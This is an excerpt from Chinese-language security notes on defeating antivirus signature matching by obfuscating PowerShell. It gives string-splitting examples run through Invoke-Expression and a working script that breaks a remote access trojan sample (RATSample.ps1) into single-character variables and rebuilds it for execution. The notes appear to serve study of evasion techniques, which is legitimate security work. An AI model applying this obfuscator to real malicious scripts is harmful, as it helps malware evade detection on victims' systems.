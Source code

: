 - 攻击者可以使用混淆技术来改变脚本的外观，使其特征码不再匹配

- 例如，使用不寻常的变量名、分解字符串、动态构造命令等方法

---

以 `字符串拆分与重组` 为例

PowerShell允许动态构造并执行字符串形式的命令，即使命令被拆分成多个部分，它们仍然可以被重新组合并执行; 

例如:

```powershell
Invoke-Expression "whoami"
```

![image-20240102022636132](http://cdn.ayusummer233.top/DailyNotes/202401020226149.png)

```powershell
$p1 = "who"
$p2 = "ami"
$cmd = $p1 + $p2
Invoke-Expression $cmd
```

![image-20240102022842255](http://cdn.ayusummer233.top/DailyNotes/202401020228304.png)

举个极端例子, 可以将原始脚本中的命令逐个字符进行切分然后拼接后使用 IEX 执行:

```powershell
# 使用PowerShell读取 RATSample.ps1 文件中的内容
$originalScript = Get-Content -Path "../../RATSample.ps1"
# 将脚本中的每个字符分解为单独的元素
$splitScript = $originalScript.ToCharArray()
# 遍历每个字符，创建一个将这些字符重新组合的脚本
$obfuscatedScript = ""
$counter = 1
foreach ($char in $splitScript) {
    $varName = "var" + $counter
    $obfuscatedScript += "`$$varName = '$char'; "
    $counter++
}
$obfuscatedScript += "`$cmd = "
for ($i = 1; $i -lt $counter; $i++) {
    $obfuscatedScript += "`$var$i + "
}
$obfuscatedScript = $obfuscatedScript.TrimEnd(" + ") + "; iex `$cmd"
# 将生成的混淆脚本写入到一个新文件
$obfuscatedScript | Out-File -FilePath "Obfuscated_RAT.ps1"

```

![image-20240102023733691](http://cdn.ayusummer233.top/DailyNotes/202401020237725.png)

![image-20240102023841467](http://cdn.ayusummer233.top/DailyNotes/202401020238563.png)
